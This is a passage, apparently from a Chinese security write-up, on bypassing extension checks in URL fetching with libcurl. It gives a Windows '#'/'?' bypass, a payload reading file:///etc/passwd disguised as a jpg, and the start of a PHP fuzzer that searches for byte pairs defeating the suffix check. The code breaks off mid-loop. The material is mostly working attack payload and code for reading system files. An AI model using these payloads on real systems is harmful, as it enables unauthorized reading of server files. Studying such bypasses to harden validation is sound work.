 [![](assets/1701606471-d3f3080e3efef31640a0ad2bcd820e6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143637-5095fae4-8cef-1.png)

经过测试可以知道 Window 下通过 # 和 ? 可以绕过后缀限制。

[![](assets/1701606471-71d4f4de8895788e6816df9d244840b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127145618-107b0c1c-8cf2-1.png)

**OSX libcurl: 7.52.1**

url=file:///etc/passwd{1}{2}{3}jpg

编写`fuzz.php`，直接`255*255*255`次数太多会导致内存分配出错，`255*255*2`会好一点，代码设计如下

```bash
<?php
error_reporting(E_ALL & ~E_WARNING);
ini_set('memory_limit', '-1');
$url = "file:///etc/passwd";
$validArrays = array();
for($pos=0; $pos<=255; $pos++){
    $char1 = sprintf("%02x", $pos);
    for($p2=0; $p2<=255; $p2++){
        $char2 = sprintf("%02x", $p2);
        $url .= urldecode("%".$char1);
        $url .= urldecode("%".$char2);
        // 第一种
        //$url.= ".jpg";
        // 第二
        $url .= "jpg";
        $ext = pathinfo($url, PATHINFO_EXTENSION);
        if($ext == "jpg"){
            array_push($validArrays, $url);
```